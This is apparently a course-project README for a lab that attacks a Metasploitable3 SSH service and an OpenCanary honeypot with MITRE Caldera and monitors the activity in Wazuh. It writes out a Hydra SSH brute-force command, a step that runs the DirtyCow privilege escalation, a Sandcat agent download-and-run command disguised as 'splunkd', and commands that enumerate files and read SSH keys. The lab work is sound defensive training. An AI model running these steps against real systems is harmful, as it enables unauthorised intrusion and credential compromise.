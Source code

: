 # ICS344

---

# Installation, Configuration, and Attack Execution Steps

This document provides a detailed guide to installing the necessary tools, configuring the environments, and performing the attacks in the project.

---

## 1. Prerequisites

### Tools and Software Required:
- **Kali Linux**: The primary platform for conducting attacks.
- **Metasploitable3**: The target vulnerable machine simulating a real SSH service.
- **Opencanary**: A lightweight honeypot for simulating SSH activity.
- **Wazuh**: A SIEM tool for monitoring and analyzing attack patterns.
- **Docker**: To deploy Wazuh easily.

Ensure the following packages are installed:
- `curl`
- `git`
- `python3` (Version < 3.12)
- `pip`
- `ssh`
- `nmap`
- `hydra`

---

## 2. Installing the Necessary Tools

### 2.1 Install Caldera
1. Install **Node.js** and **Go**:
   ```bash
   curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
   sudo apt install -y nodejs
   sudo rm -rf /usr/lib/go && sudo tar -C /usr/lib -xzf /path/to/go1.23.2.linux-amd64.tar.gz
   echo "export PATH=$PATH:/usr/lib/go/bin" >> ~/.bashrc
   source ~/.bashrc
   ```

2. Clone the Caldera repository and set up the environment:
   ```bash
   git clone https://github.com/mitre/caldera.git --recursive
   cd caldera
   python3 -m venv venv
   source venv/bin/activate
   pip install -r requirements.txt
   python3 server.py --build
   ```

### 2.2 Deploy Sandcat Agent
1. Create a batch file for deploying the agent:
   ```bash
   server="http://<Kali_IP>:8888";
   curl -s -X POST -H "file:sandcat.go" -H "platform:linux" -H "gocat-extensions:" \
       $server/file/download > splunkd; chmod +x splunkd; ./splunkd -server $server -group red -v
   ```

### 2.3 Install Opencanary Honeypot
1. Set up a virtual environment and install Opencanary:
   ```bash
   python3 -m venv opencanary
   source opencanary/bin/activate
   pip install opencanary
   ```

2. Configure Opencanary to simulate an SSH service:
   ```json
   {
       "device.node_id": "opencanary-1",
       "logging": {
           "file": {
               "enabled": true,
               "format": "%(asctime)s - %(message)s",
               "path": "opencanary.log"
           }
       },
       "ssh": {
           "enabled": true,
           "port": 2222
       }
   }
   ```
   Run the honeypot:
   ```bash
   opencanaryd --start
   ```

### 2.4 Install Wazuh
1. Deploy Wazuh using Docker:
   ```bash
   docker-compose up -d
   ```
2. Access the Wazuh dashboard at `http://<Wazuh_IP>:5601` and configure agents to collect logs from the SSH service and honeypot.

---

## 3. Configuring and Performing Attacks

### 3.1 Configure Caldera Adversary Profile
Create a profile for the SSH attack:
```yaml
id: 93b4564b-3ce7-465f-8a64-71c02b2cc7ce
name: SSH Compromiser 1
description: ---
objective: 495a9828-cab1-44dd-a0ca-66e58177d8cc
atomic_ordering:
  - c44e5e7c-7a1e-4741-9e20-00b927c7bf3e
  - 550bf3d1-4849-4372-91af-1801113a8347
  - 9590a894-8c72-49ed-abb7-0bd1e8d49d17
  - 01628dc5-be13-465d-8e91-3a02e0e42606
abilities:
  c44e5e7c-7a1e-4741-9e20-00b927c7bf3e:
    name: Brute Force SSH and Login 1
    tactic: credential-access
    technique_name: "Account Discovery"
    technique_id: T1110.001
    executors:
      - sh:
          platform: linux
          command: |
            IP="192.168.56.105";
            PORT="22";
            USERLIST="/home/kali/Downloads/user.txt";
            PASSLIST="/home/kali/Downloads/pass.txt";
            RESULTFILE="/home/kali/Downloads/ssh_crack.txt";

            hydra -L "$USERLIST" -P "$PASSLIST" ssh://$IP -t 4 -o "$RESULTFILE";

  550bf3d1-4849-4372-91af-1801113a8347:
    name: Using DirtyCow to gain privilege (Require dirtycow) 1
    tactic: privilege-escalation
    technique_name: "Exploitation for Privilege Escalation"
    technique_id: T1068
    executors:
      - sh:
          platform: linux
          command: |
            ./dirtycow exploit
```

### 3.2 Perform Attacks
1. **Brute Force SSH Attack**:
   Execute Hydra:
   ```bash
   hydra -L /path/to/user.txt -P /path/to/pass.txt ssh://<Target_IP> -t 4 -o results.txt
   ```
2. **Privilege Escalation**:
   Use the DirtyCow exploit:
   ```bash
   ./dirtycow
   ```
3. **File and Directory Discovery**:
   ```bash
   cd $HOME && find . -print > /tmp/T1083.txt
   ```
4. **Extract SSH Keys**:
   ```bash
   cat ~/.ssh/authorized_keys
   ```

---

## 4. Monitoring and Analysis with Wazuh

1. **Forward Logs to Wazuh**:
   Configure agents to monitor logs from:
   - The real SSH service (Metasploitable3)
   - The honeypot (Opencanary)

2. **Analyze Data**:
   - Use the Wazuh dashboard to view "Alerts Evolution Over Time."
   - Evaluate detected tactics using MITRE ATT&CK mappings.

3. **Identify Anomalies**:
   - Compare patterns between the real service and honeypot.
   - Assess effectiveness of the honeypot in mimicking the real service.

---

## 5. Summary

This guide covered the installation, configuration, and execution of attacks using Caldera, Opencanary, and Wazuh. The methods provide insights into the effectiveness of automated and manual attacks while highlighting the differences between a real service and a honeypot.
